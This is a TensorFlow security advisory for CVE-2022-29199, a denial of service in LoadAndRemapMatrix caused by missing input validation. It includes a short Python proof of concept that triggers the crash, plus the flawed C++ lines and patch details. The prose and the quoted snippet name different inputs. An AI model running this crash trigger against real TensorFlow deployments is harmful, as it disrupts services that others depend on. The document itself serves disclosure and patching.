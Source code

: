 ## TFSA-2022-067: Missing validation causes denial of service via `LoadAndRemapMatrix`

### CVE Number
CVE-2022-29199

### Impact
The implementation of [`tf.raw_ops.LoadAndRemapMatrix`](https://github.com/galeone/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/load_and_remap_matrix_op.cc#L70-L98) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

ckpt_path = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)
old_tensor_name = tf.constant(
    "/tmp/warm_starting_util_test5kl2a3pc/tmpph76tep2/model-0", shape=[], dtype=tf.string)

row_remapping = tf.constant(0, shape=[], dtype=tf.int64)
col_remapping = tf.constant(3, shape=[3], dtype=tf.int64)
initializing_values = tf.constant([], shape=[0, 1], dtype=tf.float32)

tf.raw_ops.LoadAndRemapMatrix(
  ckpt_path=ckpt_path,
  old_tensor_name=old_tensor_name,
  row_remapping=row_remapping,
  col_remapping=col_remapping,
  initializing_values=initializing_values,
  num_rows=1,
  num_cols=1)
```

The code assumes `initializing_values` is a vector but there is no validation for this before accessing its value:

```cc
OP_REQUIRES_OK(context, context->input("row_remapping", &row_remapping_t));
const auto row_remapping = row_remapping_t->vec<int64_t>();
```

### Patches
We have patched the issue in GitHub commit [3150642acbbe254e3c3c5d2232143fa591855ac9](https://github.com/galeone/tensorflow/commit/3150642acbbe254e3c3c5d2232143fa591855ac9).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
